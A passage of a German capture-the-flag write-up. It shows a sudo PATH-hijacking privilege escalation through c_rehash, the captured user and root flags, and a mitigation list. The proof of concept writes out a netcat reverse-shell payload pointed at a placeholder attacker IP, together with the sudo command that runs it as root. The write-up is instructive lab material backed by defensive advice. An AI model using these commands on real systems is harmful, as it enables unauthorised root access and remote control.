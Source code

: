 
## Proof of Concept: c_rehash PATH Hijacking

**Kurzbeschreibung:** Der Benutzer `maria` kann `/usr/bin/c_rehash` als `root` ohne Passwort ausführen. Das `c_rehash`-Skript ruft intern das `openssl`-Binary ohne Angabe eines absoluten Pfades auf. Ein Angreifer als `maria` kann ein bösartiges Skript namens `openssl` in einem von ihm kontrollierten Verzeichnis (z.B. `/home/maria`) erstellen, das einen Payload (z.B. eine Reverse Shell) enthält. Durch Manipulation der `PATH`-Umgebungsvariable (`sudo PATH=.:$PATH /usr/bin/c_rehash`) wird das `c_rehash`-Skript dazu veranlasst, das bösartige `openssl`-Skript anstelle des legitimen System-Binaries auszuführen, und zwar mit Root-Rechten.

**Schritte:**
1.  Erstelle ein bösartiges `openssl`-Skript mit Shell-Payload (z.B. in `/home/maria`): `echo '#!/bin/bash\nnc -e /bin/bash [Angreifer-IP] [Port]' > openssl`.
2.  Mache es ausführbar: `chmod +x openssl`.
3.  Starte einen Listener auf dem Angreifer-System: `nc -lvnp [Port]`.
4.  Führe den Sudo-Befehl mit manipuliertem PATH aus: `sudo PATH=.:$PATH /usr/bin/c_rehash`.
**Ergebnis:** Eine Reverse Shell mit Root-Rechten verbindet sich zum Listener.

---

## Flags

*   **User Flag (`/home/marco/user.txt`):**
    ```
    hashmanready
    ```
*   **Root Flag (`/root/root.txt`):**
    ```
    hashhater
    ```

---

## Empfohlene Maßnahmen (Mitigation)

*   **PHP Type Juggling:**
    *   Verwenden Sie **strikte Vergleiche (`===`)** in PHP, insbesondere bei Authentifizierungs- und Sicherheitsprüfungen.
    *   Überprüfen und validieren Sie Datentypen sorgfältig.
    *   Entfernen Sie sensible Backup-Dateien (wie `.bak`) aus öffentlich zugänglichen Web-Verzeichnissen und blockieren Sie den Zugriff auf solche Dateiendungen serverseitig.
*   **SSH-Sicherheit:**
    *   Im Falle einer Kompromittierung von SSH-Schlüsseln müssen diese umgehend ausgetauscht und gesperrt werden.
    *   Stellen Sie sicher, dass private Schlüssel niemals über Webanwendungen oder andere unsichere Kanäle preisgegeben werden.
*   **X11 Session Hijacking:**
    *   Konfigurieren Sie die Berechtigungen für Home-Verzeichnisse und insbesondere für `.Xauthority`-Dateien restriktiv (idealerweise `chmod 600`, nur für den Eigentümer les- und schreibbar).
    *   Vermeiden Sie Konfigurationen, die es Benutzern erlauben, in die Home-Verzeichnisse anderer Benutzer zu schreiben.
    *   Sichern Sie X11-Forwarding und -Zugriff entsprechend ab, wenn RDP oder andere Fernzugriffsmethoden mit X11-Integration verwendet werden.
*   **Sudo und PATH Hijacking:**
    *   **Entfernen oder überarbeiten Sie unsichere Sudo-Regeln.** Spezifisch für diesen Fall: Entfernen Sie die `NOPASSWD`-Regel für `c_rehash` für den Benutzer `maria` oder schränken Sie sie stark ein.
    *   Stellen Sie sicher, dass `secure_path` in der `sudoers`-Datei konfiguriert ist und Skripte, die über `sudo` ausgeführt werden dürfen, interne Befehle immer mit **vollem, absolutem Pfad** aufrufen, um PATH-Manipulationen zu verhindern.
*   **Allgemeine Systemhärtung:**
    *   Verwenden Sie starke, einzigartige Passwörter für alle Dienste, einschließlich RDP.
    *   Deaktivieren Sie den RDP-Dienst (`xrdp`), wenn er nicht zwingend benötigt wird.
    *   Führen Sie regelmäßige Sicherheitsüberprüfungen und Konfigurationsaudits durch.